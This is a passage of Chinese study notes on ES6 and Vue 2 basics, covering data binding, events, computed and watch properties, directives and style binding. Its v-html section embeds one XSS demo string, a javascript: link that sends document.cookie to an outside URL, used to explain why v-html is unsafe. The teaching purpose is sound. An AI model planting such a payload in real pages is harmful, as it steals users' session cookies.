

# Vue前置知识——ES6入门

## ECMAScript 6简介

>ECMAScript 6.0（以下简称 ES6）是 JavaScript 语言的下一代标准，已经在 2015 年 6 月正式发布了。
>
>它的目标，是使得 JavaScript 语言可以用来编写复杂的大型应用程序，成为企业级开发语言。


## 基本语法

ES标准中不包含 DOM 和 BOM的定义，只涵盖基本数据类型、关键字、语句、运算符、内建对象、内建函数等通用语法。


### let声明变量

```js
<script>
    // var 声明的变量没有局部作用域
    // let 声明的变量 有局部作用域
    {
        var a = 0
        let b = 1
    } 
    console.log(a) // 0
    console.log(b) // ReferenceError: b is not defined
    // var 可以声明多次
    // let 只能声明一次
    var m = 1
    var m = 2
    let n = 3
    let n = 4
    console.log(m) // 2
    console.log(n) // Identifier 'n' has already been declared
</script>
```


### const声明常量（只读变量）

```js
 // 1、声明之后不允许改变 
 const PI = "3.1415926"
 PI = 3 
 // TypeError: Assignment to constant variable.
 // 2、一但声明必须初始化，否则会报错
 const MY_AGE 
 // SyntaxError: Missing initializer in const declaration
```


### 解构赋值

解构赋值是对赋值运算符的扩展。

他是一种针对数组或者对象进行模式匹配，然后对其中的变量进行赋值。

在代码书写上简洁且易读，语义更加清晰明了；也方便了复杂对象中数据字段获取

```js
//1、数组解构
 // 传统
 let a = 1, b = 2, c = 3 
 console.log(a, b, c) 
 // ES6
 let [x, y, z] = [1, 2, 3]  
 console.log(x, y, z)
 
 //2、对象解构
 let user = {name: 'Helen', age: 18} 
 // 传统
 let name1 = user.name
 let age1 = user.age
 console.log(name1, age1) 
 // ES6
 let { name, age } = user//注意：结构的变量必须是user中的属性
 console.log(name, age)
```


### 模板字符串

1、多行字符串

2、字符串插入变量和表达式。变量名写在 ${} 中，${} 中可以放入 JavaScript 表达式

3、字符串中调用函数

```js
<script>
    let str=`I love:
    cwh`;
    console.log(str);
//	I love
//	cwh
    let name="cwh";
    let age=18;
    let str2=`name:${name}
                    age:${age}
                    ${fun1()}`;
    console.log(str2);
// 2、字符串插入变量和表达式。变量名写在 ${} 中，${} 中可以放入 JavaScript 表达式
// 3、字符串中调用函数
    function fun1(){
        return "我被遣返了";
    }
	
</script>
```


### 声明对象简写

```js
<script>
    // 好像只能用常量
    const name="yzh",age=18;
	// 传统
	const person1 = {age: age, name: name}
    console.log(person1)
	//ES6语法
    const person={name,age}
    console.log(person)
	//{age: 18, name: "yzh"}
</script>
```


### 定义方法简写

注：有点像java的方法的写法

```js
 // 传统
 const person1 = {
 	sayHi:function(){
 		console.log("Hi") 
 	}
 } 
 person1.sayHi();//"Hi"

 // ES6
 const person2 = {
	 sayHi(){
 	console.log("Hi")
 	}
 }
 person2.sayHi() //"Hi"
```


### 对象拓展运算符

```js
// 1、拷贝对象
 let person1 = {name: "Amy", age: 15} 
 let someone = { ...person1 }
 console.log(someone) //{name: "Amy", age: 15}

 // 2、合并对象
 let age = {age: 15} 
 let name = {name: "Amy"}
 let person2 = {...age, ...name} 
 console.log(person2) //{age: 15, name: "Amy"}
```


### 箭头函数

```js
 // 传统
 var f1 = function(a){
 	return a 
 } 
 console.log(f1(1))

 // ES6
 var f2 = a => a
 console.log(f2(1))


 // 当箭头函数没有参数或者有多个参数，要用 () 括起来。
 // 当箭头函数函数体有多行语句，用 {} 包裹起来，表示代码块，
 // 当只有一行语句，并且需要返回结果时，可以省略 {} , 结果会自动返回。
 var f3 = (a,b) => {
 	let result = a+b 
 	return result
 } 
 console.log(f3(6,2)) // 8

 // 前面代码相当于：
 var f4 = (a,b) => a+b
```


### 2.9模块化引入


# Vue基础

# 初始Vue

>初识Vue：
>				1.想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象；
>				2.root容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法；
>				3.root容器里的代码被称为【Vue模板】；
>				4.Vue实例和容器是一一对应的；
>				5.真实开发中只有一个Vue实例，并且会配合着组件一起使用；
>				6.{{xxx}}中的xxx要写js表达式，且xxx可以自动读取到data中的所有属性；
>				7.一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新；
>
>```html
>			注意区分：js表达式 和 js代码(语句)
>					1.表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方：
>								(1). a
>								(2). a+b
>								(3). demo(1)
>								(4). x === y ? 'a' : 'b'
>
>					2.js代码(语句)
>								(1). if(){}
>								(2). for(){}
>```

**实例**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>初识Vue</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器 -->
		<div id="demo">
			<h1>Hello，{{name.toUpperCase()}}，{{address}}</h1>
		</div>

		<script type="text/javascript" >
			Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

			//创建Vue实例
			new Vue({
				el:'#demo', //el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串。
				data:{ //data中用于存储数据，数据供el所指定的容器去使用，值我们暂时先写成一个对							象。
					name:'atguigu',
					address:'北京'
				}
			})

		</script>
	</body>
</html>
```

# vue模板语法

>Vue模板语法有2大类：
>
>​          **1.插值语法：**
>
>​              功能：用于解析标签体内容。
>
>​              写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性。
>
>​          **2.指令语法：**
>
>​              功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）。
>
>​              举例：**v-bind:**href="xxx" 或  简写为 **:href**="xxx"，xxx同样要写js表达式，
>
>​                   且可以直接读取到data中的所有属性。
>
>​              备注：Vue中有很多的指令，且形式都是：v-????，此处我们只是拿v-bind举个例子。


```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>模板语法</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>插值语法</h1>
			<h3>你好，{{name}}</h3>
			<hr/>
			<h1>指令语法</h1>
			<a v-bind:href="school.url.toUpperCase()" x="hello">点我去{{school.name}}				学习1</a>
			<a :href="school.url" x="hello">点我去{{school.name}}学习2</a>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'jack',
				school:{
					name:'尚硅谷',
					url:'http://www.atguigu.com',
				}
			}
		})
	</script>
</html>
```

# 数据绑定

>Vue中有2种数据绑定的方式：
>
>​          1.**单向绑定(v-bind)**：数据只能从data流向页面。
>
>​          2.**双向绑定(v-model)**：数据不仅能从data流向页面，还可以从页面流向data。
>
>​            备注：
>
>​                1.双向绑定一般都应用在表单类元素上（如：input、select等）
>
>​                2.v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值。

```html
<!-- 普通写法 -->
			单向数据绑定：<input type="text" v-bind:value="name"><br/>
			双向数据绑定：<input type="text" v-model:value="name"><br/>

			<!-- 简写 -->
			单向数据绑定：<input type="text" :value="name"><br/>
			双向数据绑定：<input type="text" v-model="name"><br/>
```

**实例**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>数据绑定</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 普通写法 -->
			单向数据绑定：<input type="text" v-bind:value="name"><br/>
			双向数据绑定：<input type="text" v-model:value="name"><br/>

			<!-- 简写 -->
			单向数据绑定：<input type="text" :value="name"><br/>
			双向数据绑定：<input type="text" v-model="name"><br/>

			<!-- 如下代码是错误的，因为v-model只能应用在表单类元素（输入类元素）上 -->
			<!-- <h2 v-model:x="name">你好啊</h2> -->
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
</html>
```


# el与data的两种写法（el属性和data属性）

>data与el的2种写法
>
>​          1.el有2种写法
>
>​                  (1).new Vue时候配置el属性。
>
>​                  (2).先创建Vue实例，随后再通过vm.$mount('#root')指定el的值。(无所谓)
>
>​          2.data有2种写法
>
>​                  (1).对象式
>
>​                  (2).函数式
>
>​                  如何选择：目前哪种写法都可以，以后学习到组件时，data必须使用函数式，否则会报错。
>
>​          3.一个重要的原则：
>
>​                  **由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了。**


**实例**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>el与data的两种写法</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>你好，{{name}}</h1>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		//el的两种写法
		/* const v = new Vue({
			//el:'#root', //第一种写法
			data:{
				name:'尚硅谷'
			}
		})
		console.log(v)
		v.$mount('#root') //第二种写法 */

		//data的两种写法
		new Vue({
			el:'#root',
			//data的第一种写法：对象式
			/* data:{
				name:'尚硅谷'
			} */

			//data的第二种写法：函数式
			data:function(){
				console.log('@@@',this) //此处的this是Vue实例对象
				return{
					name:'尚硅谷'
				}
			}
			// data(){
			// 	console.log('@@@',this) //此处的this是Vue实例对象
			// 	return{
			// 		name:'尚硅谷'
			// 	}
			// }
		})
	</script>
</html>
```

# MVVM模型

>MVVM模型
>
>​            1. M：模型(Model) ：data中的数据
>
>​            2. V：视图(View) ：模板代码
>
>​            3. VM：视图模型(ViewModel)：Vue实例
>
>​      观察发现：
>
>​            1.data中所有的属性，最后都出现在了vm身上。
>
>​            2.vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。





# 事件处理（v-on）

## 事件的基本使用

>事件的基本使用：
>
>​              1.使用**v-on:xxx** 或 **@xxx** 绑定事件，其中**xxx是事件名**；
>
>​              2.事件的回调需要配置在**methods对象**中，最终会在vm上；
>
>​              3.**methods中配置的函数，不要用箭头函数！否则this就不是vm了**；	
>
>​              4.**methods中配置的函数，都是被Vue所管理的函数，this的指向是vm 或 组件实例对象；**
>
>​              5.@click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参；
>
>​			 6.绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句


**实例**

注：`event`，可以获取到该事件的事件对象

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>事件的基本使用</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>欢迎来到{{name}}学习</h2>
			<!-- <button v-on:click="showInfo">点我提示信息</button> -->
			<button @click="showInfo1">点我提示信息1（不传参）</button>
			<button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
			},
			methods:{
				showInfo1(event){
					// console.log(event.target.innerText)
					// console.log(this) //此处的this是vm
					alert('同学你好！')
				},
				showInfo2(event,number){
					console.log(event,number)
					// console.log(event.target.innerText)
					// console.log(this) //此处的this是vm
					alert('同学你好！！')
				}
			}
		})
	</script>
</html>
```


## 事件的修饰符

>Vue中的事件修饰符：
>
>​            **1.prevent：阻止默认事件（常用）；**
>
>​            **2.stop：阻止事件冒泡（常用）；**
>
>​            **3.once：事件只触发一次（常用）；**
>
>​            4.capture：使用事件的捕获模式；
>
>​            5.self：只有event.target是当前操作的元素时才触发事件；
>
>​            6.passive：事件的默认行为立即执行，无需等待事件回调执行完毕；


**实例**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>事件修饰符</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
		<style>
			*{
				margin-top: 20px;
			}
			.demo1{
				height: 50px;
				background-color: skyblue;
			}
			.box1{
				padding: 5px;
				background-color: skyblue;
			}
			.box2{
				padding: 5px;
				background-color: orange;
			}
			.list{
				width: 200px;
				height: 200px;
				background-color: peru;
				overflow: auto;
			}
			li{
				height: 100px;
			}
		</style>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>欢迎来到{{name}}学习</h2>
			<!-- 阻止默认事件（常用） -->
			<a href="http://www.atguigu.com" @click.prevent="showInfo">点我提示信息</a>

			<!-- 阻止事件冒泡（常用） -->
			<div class="demo1" @click="showInfo">
				<button @click.stop="showInfo">点我提示信息</button>
				<!-- 修饰符可以连续写 -->
				<!-- <a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a> -->
			</div>

			<!-- 事件只触发一次（常用） -->
			<button @click.once="showInfo">点我提示信息</button>

			<!-- 使用事件的捕获模式 -->
			<div class="box1" @click.capture="showMsg(1)">
				div1
				<div class="box2" @click="showMsg(2)">
					div2
				</div>
			</div>

			<!-- 只有event.target是当前操作的元素时才触发事件； -->
			<div class="demo1" @click.self="showInfo">
				<button @click="showInfo">点我提示信息</button>
			</div>

			<!-- 事件的默认行为立即执行，无需等待事件回调执行完毕； -->
			<ul @wheel.passive="demo" class="list">
				<li>1</li>
				<li>2</li>
				<li>3</li>
				<li>4</li>
			</ul>

		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			},
			methods:{
				showInfo(e){
					alert('同学你好！')
					// console.log(e.target)
				},
				showMsg(msg){
					console.log(msg)
				},
				demo(){
					for (let i = 0; i < 100000; i++) {
						console.log('#')
					}
					console.log('累坏了')
				}
			}
		})
	</script>
</html>
```


## 键盘事件

>1.Vue中常用的按键别名：
>
>​              回车 => enter
>
>​              删除 => delete (捕获“删除”和“退格”键)
>
>​              退出 => esc
>
>​              空格 => space
>
>​              换行 => tab (特殊，必须配合keydown去使用)
>
>​              上 => up
>
>​              下 => down
>
>​              左 => left
>
>​              右 => right
>
>
>
>​        2.Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（短横线命名）
>
>
>
>​        3.系统修饰键（用法特殊）：ctrl、alt、shift、meta
>
>​              (1).配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。
>
>​              (2).配合keydown使用：正常触发事件。
>
>
>
>​        4.也可以使用keyCode去指定具体的按键（不推荐）
>
>
>
>​        5.Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名
>
>


**实例**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>键盘事件</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
	
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>欢迎来到{{name}}学习</h2>
			<input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo">
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		Vue.config.keyCodes.huiche = 13 //定义了一个别名按键

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			},
			methods: {
				showInfo(e){
					// console.log(e.key,e.keyCode)
					console.log(e.target.value)
				}
			},
		})
	</script>
</html>
```


# 计算属性(computed属性)

**插值语法实现**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>姓名案例_插值语法实现</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			姓：<input type="text" v-model="firstName"> <br/><br/>
			名：<input type="text" v-model="lastName"> <br/><br/>
			全名：<span>{{firstName}}-{{lastName}}</span>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				firstName:'张',
				lastName:'三'
			}
		})
	</script>
</html>
```


## 计算属性实现

>计算属性：
>					1.定义：要用的属性不存在，要通过已有属性计算得来。
>					2.原理：底层借助了Objcet.defineproperty方法提供的getter和setter。
>					3.get函数什么时候执行？
>								(1).初次读取时会执行一次。
>								(2).当依赖的数据发生改变时会被再次调用。
>					4.优势：与methods实现相比，内部有缓存机制（复用），效率更高，调试方便。
>					5.备注：
>							1.计算属性最终会出现在vm上，直接读取使用即可。
>							2.如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变。


**计算属性简写**

```html

computed:{
				//完整写法
				/* fullName:{
					get(){
						console.log('get被调用了')
						return this.firstName + '-' + this.lastName
					},
					set(value){
						console.log('set',value)
						const arr = value.split('-')
						this.firstName = arr[0]
						this.lastName = arr[1]
					}
				} */
				//简写
				fullName(){
					console.log('get被调用了')
					return this.firstName + '-' + this.lastName
				}
			},
```


```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>姓名案例_计算属性实现</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			姓：<input type="text" v-model="firstName"> <br/><br/>
			名：<input type="text" v-model="lastName"> <br/><br/>
			测试：<input type="text" v-model="x"> <br/><br/>
			全名：<span>{{fullName}}</span> <br/><br/>
			<!-- 虽然fullName()他是一个函数，但是{{fullName}}他需要的是一个函数还是一个值呢？
				这里显然需要的是一个值 
			-->
			<!-- 全名：<span>{{fullName}}</span> <br/><br/>
			全名：<span>{{fullName}}</span> <br/><br/>
			全名：<span>{{fullName}}</span> -->
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				firstName:'张',
				lastName:'三',
				x:'你好'
			},
			methods: {
				demo(){
					
				}
			},
			computed:{
				fullName:{
					//get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
					//get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
					get(){
						console.log('get被调用了')
						// console.log(this) //此处的this是vm
						return this.firstName + '-' + this.lastName
					},
					//set什么时候调用? 当fullName被修改时。
					set(value){
						console.log('set',value)
						const arr = value.split('-')
						this.firstName = arr[0]
						this.lastName = arr[1]
					}
				}
			}
		})
	</script>
</html>
```


# 监视属性（watch属性）

## 监视属性watch

>监视属性watch：
>
>​          1.当被监视的属性变化时, 回调函数自动调用, 进行相关操作
>
>​          2.监视的属性必须存在，才能进行监视！！
>
>​          3.监视的两种写法：
>
>​              (1).new Vue时传入watch配置
>
>​              (2).通过vm.$watch监视

## 深度监视

>深度监视：
>
>​            (1).Vue中的watch默认不监测对象内部值的改变（一层）。
>
>​            (2).配置deep:true可以监测对象内部值改变（多层）。
>
>​        备注：
>
>​            (1).Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以！
>
>​            (2).使用watch时根据数据的具体结构，决定是否采用深度监视。

**实例**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>天气案例_深度监视</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>今天天气很{{info}}</h2>
			<button @click="changeWeather">切换天气</button>
			<hr/>
			<h3>a的值是:{{numbers.a}}</h3>
			<button @click="numbers.a++">点我让a+1</button>
			<h3>b的值是:{{numbers.b}}</h3>
			<button @click="numbers.b++">点我让b+1</button>
			<button @click="numbers = {a:666,b:888}">彻底替换掉numbers</button>
			{{numbers.c.d.e}}
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		const vm = new Vue({
			el:'#root',
			data:{
				isHot:true,
				numbers:{
					a:1,
					b:1,
					c:{
						d:{
							e:100
						}
					}
				}
			},
			computed:{
				info(){
					return this.isHot ? '炎热' : '凉爽'
				}
			},
			methods: {
				changeWeather(){
					this.isHot = !this.isHot
				}
			},
			watch:{
				isHot:{
					// immediate:true, //初始化时让handler调用一下
					//handler什么时候调用？当isHot发生改变时。
					handler(newValue,oldValue){
						console.log('isHot被修改了',newValue,oldValue)
					}
				},
				//监视多级结构中某个属性的变化
				/* 'numbers.a':{
					handler(){
						console.log('a被改变了')
					}
				} */
				//监视多级结构中所有属性的变化
				numbers:{
					deep:true,
					handler(){
						console.log('numbers改变了')
					}
				}
			}
		})

	</script>
</html>
```


# 条件渲染（v-if/v-show）

>条件渲染：
>
>​              1.v-if
>
>​                    写法：
>
>​                        (1).v-if="表达式" 
>
>​                        (2).v-else-if="表达式"
>
>​                        (3).v-else="表达式"
>
>​                    适用于：切换频率较低的场景。
>
>​                    特点：不展示的DOM元素直接被移除。
>
>​                    注意：v-if可以和:v-else-if、v-else一起使用，但要求结构不能被“打断”。
>
>
>
>​              2.v-show
>
>​                    写法：v-show="表达式"
>
>​                    适用于：切换频率较高的场景。
>
>​                    特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉
>
>​                
>
>​              3.备注：使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到。
>
>​                  template只能配合v-if进行使用，v-show不行，那样就没有效果了！


**实例**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>条件渲染</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1 v-show="false">我ε=(´ο｀*)))唉</h1>
			<h2>当前的n值是:{{n}}</h2>
			<button @click="add">点我n+1</button>
			<!-- 使用v-show做条件渲染 -->
			<!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
			<!-- <h2 v-show="1 === 1">欢迎来到{{name}}</h2> -->

			<!-- 使用v-if做条件渲染 -->
			<!-- <h2 v-if="false">欢迎来到{{name}}</h2> -->
			<!-- <h2 v-if="1 === 1">欢迎来到{{name}}</h2> -->

			<!-- v-else和v-else-if -->
			<!-- <div v-if="n === 1">Angular</div>
			<div v-else-if="n === 2">React</div>
			<div v-else-if="n === 3">Vue</div>
			<div v-else>哈哈</div> -->

			<!-- v-if与template的配合使用 -->
			<template v-if="n === 1">
				<h2>你好</h2>
				<h2>尚硅谷</h2>
				<h2>北京</h2>
			</template>

		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false

		const vm = new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				n:0
			},
			methods:{
				add(){
					this.n++;
					console.log(this);
				}
			},
		})
	</script>
</html>
```


# 其他内置指令

## v-for指令

>v-for指令:
>
>​            1.用于展示列表数据
>
>​            2.语法：v-for="(item, index) in xxx" :key="yyy"(index:数组下标，item:个体值)
>
>​            3.可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）


**实例**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>基本列表</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 遍历数组 -->
			<h2>人员列表（遍历数组）</h2>
			<ul>
				<li v-for="(p,index) of persons" :key="index">
					{{p.name}}-{{p.age}}
				</li>
			</ul>

			<!-- 遍历对象 -->
			<h2>汽车信息（遍历对象）</h2>
			<ul>
				<li v-for="(value,k) of car" :key="k">
					{{k}}-{{value}}
				</li>
			</ul>

			<!-- 遍历字符串 -->
			<h2>测试遍历字符串（用得少）</h2>
			<ul>
				<li v-for="(char,index) of str" :key="index">
					{{char}}-{{index}}
				</li>
			</ul>
			
			<!-- 遍历指定次数 -->
			<h2>测试遍历指定次数（用得少）</h2>
			<ul>
				<li v-for="(number,index) of 5" :key="index">
					{{index}}-{{number}}
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			new Vue({
				el:'#root',
				data:{
					persons:[
						{id:'001',name:'张三',age:18},
						{id:'002',name:'李四',age:19},
						{id:'003',name:'王五',age:20}
					],
					car:{
						name:'奥迪A8',
						price:'70万',
						color:'黑色'
					},
					str:'hello'
				}
			})
		</script>
</html>
```


## v-text指令

>我们学过的指令：
>
>​            v-bind  : 单向绑定解析表达式, 可简写为 :xxx
>
>​            v-model : 双向数据绑定
>
>​            v-for  : 遍历数组/对象/字符串
>
>​            v-on   : 绑定事件监听, 可简写为@
>
>​            v-if   : 条件渲染（动态控制节点是否存存在）
>
>​            v-else  : 条件渲染（动态控制节点是否存存在）
>
>​            v-show  : 条件渲染 (动态控制节点是否展示)
>
>​        v-text指令：
>
>​            1.作用：向其所在的节点中渲染文本内容。
>
>​            2.**与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。**
>
>


## v-html指令

>v-html指令：
>
>​            1.作用：向指定节点中渲染包含html结构的内容。
>
>​            2.与插值语法的区别：
>
>​                  (1).**v-html会替换掉节点中所有的内容，{{xx}}则不会。**
>
>​                  (2).**v-html可以识别html结构。**
>
>​            3.严重注意：v-html有安全性问题！！！！
>
>​                  (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
>
>​                  (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
>
>

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
			<div v-html="str3"></div>
            <div v-text="王八蛋"></div>
                
            </div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
				str3:"<h1>hahahaha</h1>"
			}
		})
	</script>
</html>
```


## v-cloak指令

>v-cloak指令（没有值）：
>
>​            1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
>
>​            2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。


## v-once指令

>v-once指令：
>
>​            1.v-once所在节点在初次动态渲染后，就视为静态内容了。
>
>​            2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
>
>


## v-pre指令

>v-pre指令：
>
>​          1.跳过其所在节点的编译过程。
>
>​          2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
>
>


# 绑定样式

>绑定样式：
>					1. class样式
>								写法:class="xxx" xxx可以是字符串、对象、数组。
>										字符串写法适用于：类名不确定，要动态获取。
>										对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
>										数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。
>					2. style样式
>								:style="{fontSize: xxx}"其中xxx是动态值。
>								:style="[a,b]"其中a、b是样式对象。
>
>


```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>绑定样式</title>
		<style>
			.basic{
				width: 400px;
				height: 100px;
				border: 1px solid black;
			}
			
			.happy{
				border: 4px solid red;;
				background-color: rgba(255, 255, 0, 0.644);
				background: linear-gradient(30deg,yellow,pink,orange,yellow);
			}
			.sad{
				border: 4px dashed rgb(2, 197, 2);
				background-color: gray;
			}
			.normal{
				background-color: skyblue;
			}

			.atguigu1{
				background-color: yellowgreen;
			}
			.atguigu2{
				font-size: 30px;
				text-shadow:2px 2px 10px red;
			}
			.atguigu3{
				border-radius: 20px;
			}
		</style>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
			<div class="basic" :class="mood" @click="changeMood">{{name}}</div> <br/><br/>

			<!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
			<div class="basic" :class="classArr">{{name}}</div> <br/><br/>

			<!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
			<div class="basic" :class="classObj">{{name}}</div> <br/><br/>

			<!-- 绑定style样式--对象写法 -->
			<div class="basic" :style="styleObj">{{name}}</div> <br/><br/>
			<!-- 绑定style样式--数组写法 -->
			<div class="basic" :style="styleArr">{{name}}</div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false
		
		const vm = new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				mood:'normal',
				classArr:['atguigu1','atguigu2','atguigu3'],
				classObj:{
					atguigu1:false,
					atguigu2:false,
				},
				styleObj:{
					fontSize: '40px',
					color:'red',
				},
				styleObj2:{
